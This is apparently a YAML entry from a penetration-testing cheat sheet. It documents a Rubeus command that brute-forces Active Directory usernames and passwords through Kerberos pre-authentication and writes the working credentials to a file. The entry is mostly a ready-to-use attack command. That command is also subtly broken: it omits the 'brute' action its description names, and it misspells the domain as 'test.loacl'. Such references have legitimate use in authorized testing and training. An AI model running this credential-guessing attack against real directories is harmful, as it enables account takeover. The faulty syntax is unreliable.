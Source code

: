 ```yaml
---
description: |
  Rubeus' `brute` module bruteforces and enumerates valid Active Directory accounts through Kerberos Pre-Authentication. The following command will attempt to brute force valid username and passwords logins given a list of usernames and a list of passwords.

  Command Reference:

  	Domain: test.local

  	Username List: usernames.txt

  	Password List: passwords.txt

  	Output File: found_passwords.txt
items:
  No_Creds:
    - code: |
        Rubeus.exe /users:usernames.txt /passwords:passwords.txt /domain:test.loacl /outfile:found_passwords.txt
filters:
  Kerberos:
    - code: |
        empty
  Windows:
    - code: |
        empty
---
```

